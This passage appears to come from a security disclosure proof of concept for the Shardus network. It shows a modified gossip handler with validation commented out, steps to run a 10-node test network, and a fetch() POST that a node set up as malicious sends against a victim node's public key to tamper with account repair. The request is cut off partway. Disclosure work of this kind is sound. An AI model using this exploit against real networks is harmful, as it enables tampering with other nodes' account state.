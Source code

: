 ```
              [accountData],
              `repair_oos_accounts:${txId}`,
              true,
              updatedAccounts
            )
            if (logFlags.debug) this.mainLogger.debug(`repair_oos_accounts: ${updatedAccounts.length} updated, ${failedHashes.length} failed`)
            nestedCountersInstance.countEvent('accountPatcher', `repair_oos_accounts:${updatedAccounts.length} updated, accountId: ${utils.makeShortHash(accountID)}, cycle: ${this.stateManager.currentCycleShardData.cycleNumber}`)
            if (failedHashes.length > 0) nestedCountersInstance.countEvent('accountPatcher', `repair_oos_accounts:${failedHashes.length} failed`)
            let success = false
            if (updatedAccounts.length > 0 && failedHashes.length === 0) {
              success = true
            }
            */
          }
          await respond(true)
        } catch (e) {
        }

        profilerInstance.scopedProfileSectionEnd('repair_oos_accounts')
      }
    )
```

The code snippet above does the following:

**1-** It creates a copy of the internal gossip handler `repair_oos_accounts` and names it `infosec_repair_oos_accounts`.

**2-** The `account_id` is the only value we'll tamper with. The rest of the fields in the payload will be untampered (valid values, that a legit request would send). Therefore, we make the proof of concept way easier to setup and reproduce by creating a new gossip handler and commenting checks for fields that will not be tampered with, but leaving uncommented all code that touches the vulnerable field.

Now build both codebases, and start the network with 10 nodes using shardus's CLI (`shardus start 10`)

Wait until cycle 16 before proceeding with the next step. All nodes should be active and synced by cycle 16.

> You can check the current cycle number in the network monitor: http://SERVER_IP:3000

After cycle 16, visit: http://SERVER_IP:4000/nodelist and copy the public key of the node running at port 9003. He will be our victim.

Now, visit: http://SERVER_IP:9005/, the node running at port 9005 will be the malicious one.

Open the browser console, and send the following request, after modifying the placeholders `SERVER_IP` and `VICTIM_PUBLIC_KEY `:

```
fetch("http://SERVER_IP:9005/infosec_gossipAnything/?route=infosec_repair_oos_accounts&pk=VICTIM_PUBLIC_KEY", {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        "repairInstructions": [{
            "accountID": "placeholder",
            "txId": "placeholder",
            "hash": "placeholder",
            "accountData": {},
            "targetNodeId": "placeholder",
```